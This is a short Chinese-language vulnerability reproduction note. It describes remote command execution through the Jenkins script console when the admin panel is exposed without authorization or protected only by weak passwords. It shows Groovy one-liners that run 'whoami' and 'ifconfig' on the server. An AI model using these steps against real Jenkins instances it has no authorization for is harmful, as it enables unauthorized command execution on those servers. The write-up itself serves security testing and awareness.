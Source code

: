 ```yaml
---
title: Jenkins 功能未授权访问导致的远程命令执行漏洞
id: zhfly2987
---
```


# Jenkins 功能未授权访问导致的远程命令执行漏洞

## 一、漏洞简介

Jenkins管理登陆之后，后台”系统管理”功能，有个”脚本命令行的”功能，它的作用是执行用于管理或故障探测或诊断的任意脚本命令，利用该功能，可以执行系统命令，该功能实际上Jenkins正常的功能，由于很多管理账号使用了弱口令，或者管理后台存在未授权访问，导致该功能会对Jenkins系统服务器产生比较严重的影响和危害。

## 二、漏洞影响

## 三、复现过程

找到“系统管理”——“脚本命令行”。

![image](../img/4c44aa492284a0a1168d735ae152d2cb.png)

![image](../img/5ccfc25436827c277fa36d533dfab159.png)

输入任意的Groovy脚本并在服务器上执行它。对于故障排除和诊断很有用。使用’println’命令查看输出（如果使用System.out，它将输出到服务器的标准输出，很难看到。）示例：

```
println(Jenkins.instance.pluginManager.plugins) 
```

在脚本命令行中输入下面的语句，即可执行相应的命令：

```
println "whoami".execute().text 
```

![image](../img/771481d41d471ea2221290c2e365e3cf.png)

```
println "ifconfig".execute().text 
```

![image](../img/bcd27e5fe0b5ebf38ae9d55bfe5f839e.png)